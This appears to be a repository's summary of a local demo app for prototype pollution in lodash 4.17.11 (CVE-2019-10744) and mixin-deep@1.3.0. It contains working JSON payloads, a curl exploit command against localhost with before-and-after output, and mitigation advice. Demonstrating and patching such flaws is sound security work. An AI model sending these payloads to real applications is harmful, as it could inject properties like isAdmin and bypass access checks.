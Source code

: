 # Vulnerability Demonstration Summary

## ✅ Successfully Implemented

### CVE-2019-10744 (GHSA-jf85-cpcp-j695)
- **Status**: ✅ CONFIRMED VULNERABLE in lodash 4.17.11
- **Function**: `_.defaultsDeep()`
- **Payload**: `{"constructor": {"prototype": {"isAdmin": true}}}`
- **Result**: Successfully pollutes Object.prototype globally

### CVE-2018-3721 (GHSA-fvqr-27wr-82fm)  
- **Status**: ❌ NOT VULNERABLE in lodash 4.17.11 (fixed in this version)
- **Functions**: `_.merge()`, `_.mergeWith()`
- **Note**: These vulnerabilities affect earlier versions of lodash

### Transitive Dependency: mixin-deep@1.3.0
- **Status**: ✅ CONFIRMED VULNERABLE (transitive via webpack)
- **Function**: `mixinDeep(target, source...)`
- **Dependency Chain**: webpack → micromatch → snapdragon → base → mixin-deep@1.3.0
- **Payload**: `{"__proto__": {"isVulnerable": "mixin-deep"}}`
- **Result**: Demonstrates dangerous key processing that can lead to prototype pollution

## Application Features

1. **Web Interface** (http://localhost:3000)
   - Interactive forms for testing each vulnerability
   - Real-time status checking
   - Clean, documented interface with examples

2. **API Endpoints**
   - `/api/status` - Check prototype pollution status
   - `/api/defaults-deep` - Test CVE-2019-10744
   - `/api/merge` - Test CVE-2018-3721 (not vulnerable in 4.17.11)
   - `/api/merge-with` - Test CVE-2018-3721 (not vulnerable in 4.17.11)
   - `/api/mixin-deep` - Test transitive mixin-deep vulnerability
   - `/api/reset` - Clean up prototype pollution

3. **Command Line Demo**
   - `node demo.js` - Shows vulnerabilities step by step
   - Clear output showing which CVEs are exploitable

4. **Testing Suite**
   - Playwright test configuration
   - Automated API testing
   - Screenshot generation capability

## Proof of Concept

**Before Exploitation:**
```json
{"prototypePolluded": false, "lodashVersion": "4.17.11"}
```

**Exploit Payload:**
```bash
curl -X POST http://localhost:3000/api/defaults-deep \
  -H "Content-Type: application/json" \
  -d '{"constructor": {"prototype": {"isAdmin": true}}}'
```

**After Exploitation:**
```json
{
  "success": true,
  "message": "defaultsDeep executed", 
  "prototypePolluded": true,
  "isAdmin": true
}
```

**Global Verification:**
```json
{"prototypePolluted": true, "isAdmin": true, "lodashVersion": "4.17.11"}
```

## Security Impact

The CVE-2019-10744 vulnerability demonstrates:
- **Prototype Pollution**: Ability to inject properties into Object.prototype
- **Global Impact**: All new objects inherit the polluted properties
- **Security Bypass Potential**: Properties like `isAdmin` can be injected
- **Persistence**: Pollution persists until explicitly cleaned

## Mitigation

- Upgrade to lodash 4.17.21+
- Validate and sanitize user input
- Use Object.freeze() on critical prototypes
- Implement proper input validation and CSP headers